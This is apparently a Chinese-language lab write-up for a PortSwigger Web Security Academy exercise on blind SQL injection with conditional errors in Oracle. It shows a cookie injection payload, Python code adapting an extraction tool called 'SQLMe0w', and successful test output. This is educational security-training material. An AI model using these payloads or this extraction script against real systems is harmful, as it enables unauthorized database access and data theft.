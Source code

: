 ```
1' || (SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE 'a' END FROM DUAL) || '12
```

其中 `1=1` 的地方放 Condition

套 SQLMe0w 的 Oracle 版本，`boolean_based_blind` 函數修改如下

```python
def boolean_based_blind(condition):
    cookies = {
        'TrackingId': f"1' || (SELECT CASE WHEN ({condition}) THEN to_char(1/0) ELSE 'A' END FROM dual) || '",
        'session': "edUkNnKp8nnaCX9z4YekOGUj06TeSv0T",
    }

    headers = {
    # 略  
    }

    response = requests.get('https://ac331f801ec53461c090057300890038.web-security-academy.net/', headers=headers, cookies=cookies)

    if response.status_code == 500: # change me to other keyword or length
        return True
    else:
        return False
```

透過 Option 0 進行測試，測試成功
```
steven@DESKTOP-08DE77L:~/SQLME0w$ python3 SQLME0w_Oracle_lab-conditional-errors.py 

▒█▀▀▀█ ▒█▀▀█ ▒█░░░ ▒█▀▄▀█ ▒█▀▀▀ █▀▀█ █░░░█
░▀▀▀▄▄ ▒█░▒█ ▒█░░░ ▒█▒█▒█ ▒█▀▀▀ █▄▀█ █▄█▄█
▒█▄▄▄█ ░▀▀█▄ ▒█▄▄█ ▒█░░▒█ ▒█▄▄▄ █▄▄█ ░▀░▀░ for Oracle

 
 🐱 (0) System Test
 🐱 (1) Get Current DB
 🐱 (2) Get All DBS
 🐱 (3) Get Tables
 🐱 (4) Get Columns
 🐱 (5) Get Data
Your Option : 0
Intend True:  True
Intend False:  False
✅ Test success 🐱🐱🐱🐱🐱🐱🐱🐱🐱
```


因為題目已經提供了 table 與 column 名稱，所以我們可以直接寫死在程式瑪中，這邊我們也不需要考慮資料庫名稱，所以些微修改程式碼，(註解的為原始的)

```python
# db = input("Database Name : ")
db = "123"
# data_size_right = f"(SELECT COUNT({column}) FROM {db}.{table})"
data_size_right = f"(SELECT COUNT({column}) FROM {table})"
# data_str_len_right = "(SELECT A FROM (SELECT ROWNUM no, LENGTH({column}) AS A FROM {db}.{table}) WHERE no={db_num})"
data_str_len_right = "(SELECT A FROM (SELECT ROWNUM no, LENGTH({column}) AS A FROM {table}) WHERE no={db_num})"
# data_name_right_condition = "(SELECT A FROM (SELECT ROWNUM no,ASCII(SUBSTR({column},{data_name_index},1)) AS A FROM {db}.{table}) WHERE no={size})"
data_name_right_condition = "(SELECT A FROM (SELECT ROWNUM no,ASCII(SUBSTR({column},{data_name_index},1)) AS A FROM {table}) WHERE no={size})"
```
